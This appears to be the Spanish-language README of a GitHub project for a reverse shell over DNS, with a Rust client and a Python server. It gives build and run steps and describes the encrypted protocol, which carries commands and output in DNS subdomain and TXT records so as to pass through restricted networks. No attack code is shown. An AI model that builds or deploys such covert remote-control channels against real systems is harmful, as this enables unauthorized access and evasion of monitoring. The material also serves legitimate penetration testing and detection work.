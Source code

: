 # Reverse Shell sobre DNS
<div style="text-align: center;">
   <img src="https://github.com/user-attachments/assets/ffb39231-ae53-4a15-9c1b-dd4583124ae5" alt="Logo" width="200"/>
</div>


Este proyecto implementa una reverse shell que utiliza el protocolo DNS para la comunicación entre un cliente (escrito en Rust) y un servidor (en Python). Es ideal para situaciones donde el tráfico convencional está restringido, pero el DNS sigue permitido.

---

## Estructura del Proyecto

```
dns_rev/
├── dns_client/         # Cliente en Rust
│   ├── src/
│   │   ├── main.rs
│   │   ├── config.rs
│   │   ├── command.rs
│   │   ├── dns.rs
│   │   └── crypto.rs
│   ├── Cargo.toml
│   └── Cargo.lock
├── dns_server/         # Servidor en Python
│   ├── main.py
│   ├── requirements.txt
│   └── tests/
│       └── client.py
├── setup.sh            # Script de instalación para dependencias
├── generate.sh         # Script de generación y configuración del cliente
```

---

## Instalación

### Servidor (Python)

1. **Instala los requerimientos:**
   ```bash
   pip install -r dns_server/requirements.txt
   ```
   El archivo incluye:
   - `dnslib`
   - `cryptography`

2. **(Opcional) Ejecuta el setup para dependencias en Linux:**
   ```bash
   bash ./setup.sh
   ```

3. **Inicia el servidor:**
   ```bash
   python dns_server/main.py
   ```

### Cliente (Rust)

1. **Genera y configura el binario del cliente:**
   
   Ejecuta el script de generación:
   ```bash
   bash ./generate.sh
   ```
   - El script te pedirá la IP del servidor DNS y la actualizará automáticamente en la configuración del cliente.
   - Te permitirá elegir el sistema operativo de destino (Linux o Windows) y compilará el binario correspondiente.
   - El binario generado se copiará automáticamente al directorio actual con el nombre adecuado (`dns_client_bin` para Linux o `dns_client.exe` para Windows).

2. **Ejecuta el binario generado:**
   - En Linux:
     ```bash
     ./dns_client_bin
     ```
   - En Windows:
     ```cmd
     dns_client.exe
     ```

---

## Protocolo de Reverse Shell sobre DNS

- **Cifrado:** Toda la comunicación está cifrada usando ChaCha20Poly1305.
- **Intercambio de claves:** El cliente solicita la clave y nonce al servidor usando subdominios especiales (`cipher.<dominio>`).
- **Comandos:** El servidor envía comandos fragmentados en registros TXT bajo el subdominio `cmd.<dominio>`.
- **Respuestas:** El cliente ejecuta el comando y envía la salida fragmentada en registros A/TXT bajo el subdominio `output.<dominio>`.
- **Fragmentación:** Los mensajes largos se dividen en fragmentos para ajustarse a las limitaciones del protocolo DNS.
- **Control:** El servidor mantiene el estado y controla la autorización de clientes por IP.

---

## Personalización: Dominios y Subdominios

Para adaptar el proyecto a tu infraestructura, debes modificar los siguientes valores:

### En el Servidor (`dns_server/main.py`)

Busca las siguientes variables al inicio del archivo:
```python
DOMINIO_BASE = "guchihacker.org"  # Cambia por tu dominio
CMD_SUBDOMINIO = f"cmd.{DOMINIO_BASE}"
OUTPUT_SUBDOMINIO = f"output.{DOMINIO_BASE}"
CIPHER_SUBDOMINIO = f"cipher.{DOMINIO_BASE}"
```
Cambia `"guchihacker.org"` por tu dominio propio y asegúrate de que apunte a tu servidor.

### En el Cliente (`dns_client/src/config.rs`)

El script `generate.sh` te pedirá la IP del servidor DNS y la actualizará automáticamente. Si quieres cambiar el dominio base u otros parámetros, edita manualmente:
```rust
pub struct Config {
    pub dns_server: String,      // IP del servidor DNS
    pub base_domain: String,     // Dominio base (igual que en el servidor)
    ...
}
```
Por defecto:
```rust
dns_server: "127.0.0.1".to_string(),
base_domain: "guchihacker.org".to_string(),
```
Modifica estos valores para que coincidan con tu infraestructura.

---

## Tests

El servidor incluye un archivo de pruebas en `dns_server/tests/client.py` para validar la funcionalidad del cliente en Python.

---

## Video demo



https://github.com/user-attachments/assets/496bb389-2b79-4666-addc-2f514a89dde5


---

## Notas de Seguridad

- **Uso ético:** Este software es solo para fines educativos y pruebas de seguridad en entornos controlados.
- **Dominio propio:** Usa siempre dominios y servidores bajo tu control.
- **Cifrado:** Toda la comunicación está cifrada, pero la seguridad depende de la confidencialidad de la clave y el control del dominio. 

